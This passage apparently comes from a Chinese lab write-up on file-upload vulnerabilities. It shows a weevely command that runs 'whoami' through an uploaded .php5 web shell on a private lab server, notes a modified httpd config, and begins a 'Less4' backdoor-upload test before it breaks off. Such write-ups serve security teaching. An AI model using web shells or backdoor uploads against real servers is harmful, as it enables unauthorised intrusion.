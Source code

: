 ```
root@TQ:~/桌面# weevely http://172.16.3.181/upload/201909141301308526.php5 123456 whoami
```

![88cb1c3543df8298f8287cee5f75b22e.png](../../images/909c307bb9f14be08edd681d419b79af.png)
备注：测试环境的httpd.config文件经过特殊配置，增加新内容：

![57754f2b3fa66b59e3b0473fc475c913.png](../../images/6309308a90c1418d9ee9fa9cc853c9c5.png)

默认不存在此行内容。

## 1.2.3 Less4测试：

上传后门后，提示如下：
![93fcd2c7cf6198f65ee699d15a3a3d55.png](../../images/bb9f715776924a6a90f0619ef5248083.png)
上传jpg后缀，提示如下：
